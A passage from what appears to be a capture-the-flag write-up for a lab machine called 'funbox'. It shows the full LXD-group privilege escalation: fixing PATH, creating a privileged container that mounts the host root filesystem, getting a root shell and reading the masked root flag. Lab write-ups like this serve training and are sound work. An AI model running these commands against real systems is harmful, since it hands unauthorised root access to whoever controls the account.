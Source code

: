 Executing `lxc` on the target shows that there is a path missing in the environment. Lets fix that.
```bash
funny@funbox:/tmp$ lxc
lxc
Command 'lxc' is available in '/snap/bin/lxc'
The command could not be located because '/snap/bin' is not included in the PATH environment variable.
lxc: command not found
funny@funbox:/tmp$ export PATH=$PATH:/snap/bin
export PATH=$PATH:/snap/bin
funny@funbox:/tmp$ lxc
lxc
Description:
  Command line client for LXD

  All of LXD's features can be driven through the various commands below.
  For help with any of those, simply call them with --help.

Usage:
  lxc [command]
...
```

Now lets continue with the escalation.
```bash
funny@funbox:/tmp$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
funny@funbox:/tmp$ lxc init alpine privesc -c security.privileged=true
funny@funbox:/tmp$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
funny@funbox:/tmp$ lxc start privesc
funny@funbox:/tmp$ lxc exec privesc /bin/sh
# id
uid=0(root) gid=0(root)
```

> `root`!
{: .prompt-info }

## get second flag
Now lets read the `root` flag.
```bash
# cd /mnt/root/root
/mnt/root/root # ls proof.txt
proof.txt

/mnt/root/root # cat proof.txt
1******************************f
```

Pwned! <@:-)
